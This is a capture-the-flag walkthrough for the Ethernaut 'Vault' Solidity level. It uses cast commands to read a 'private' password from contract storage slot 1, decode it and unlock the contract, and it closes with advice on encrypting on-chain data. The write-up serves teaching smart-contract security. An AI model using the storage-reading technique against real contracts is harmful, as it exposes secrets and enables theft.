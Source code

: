 # Vault Level Outline

**Difficulty : 3/10**

Unlock the vault to pass the level!

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xf94b476063B6379A3c8b6C836efB8B3e10eDe188)

## Solution

Nothing on the blockchain is private, not even private variables. We can probe the memory slot from the smart contract to find the value of password.

- Storage slot 0 = locked

- Storage slot 1 = password

So to find the value of password we inspect storage slot 1.

### Walkthrough
##### 1. Inspect the first storage slot of the vault 
```console
cast storage $LEVEL_ADDRESS 1
```
output 
```console
0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```

##### 2. For fun lets see the hex data in utf8 format
```console
cast --to-ascii 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```
output 
```console
A very strong secret password :)
```

##### 3. Call the "unlock(bytes32)" function with the extracted password
```console
cast send $LEVEL_ADDRESS "unlock(bytes32)" 0x412076657279207374726f6e67207365637265742070617373776f7264203a29 --private-key $PRIVATE_KEY 
```
## Further Reading
To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.



---

##### [:arrow_left: Back To Main Menu](../README.md)
